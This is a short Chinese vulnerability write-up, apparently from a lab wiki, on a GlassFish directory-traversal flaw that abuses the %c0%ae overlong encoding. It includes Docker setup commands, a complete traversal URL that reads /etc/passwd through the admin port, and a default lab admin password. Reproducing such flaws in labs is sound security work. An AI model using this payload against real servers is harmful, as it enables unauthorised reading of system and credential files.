 GlassFish 任意文件读取漏洞
==========================

一、漏洞简介
------------

java语言中会把`%c0%ae`解析为`\uC0AE`，最后转义为ASCCII字符的`.`（点）。利用`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/`来向上跳转，达到目录穿越、任意文件读取的效果。

二、漏洞影响
------------

三、复现过程
------------

编译、运行测试环境

    docker-compose build
    docker-compose up -d

环境运行后，访问`http://www.0-sec.org:8080`和`http://www.0-sec.org:4848`即可查看web页面。其中，8080端口是网站内容，4848端口是GlassFish管理中心。

访问`https://www.0-sec.org:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd`，发现已成功读取`/etc/passwd`内容：![1.png](/Users/aresx/Documents/VulWiki/.resource/GlassFish任意文件读取漏洞/media/rId24.png)

ps:本环境超级管理员密码在docker-compose.yml中设置，默认为vulhub\_default\_password，在4848端口利用该密码可以登录管理员账户。

参考链接
--------

> https://vulhub.org/\#/environments/glassfish/4.1.0/
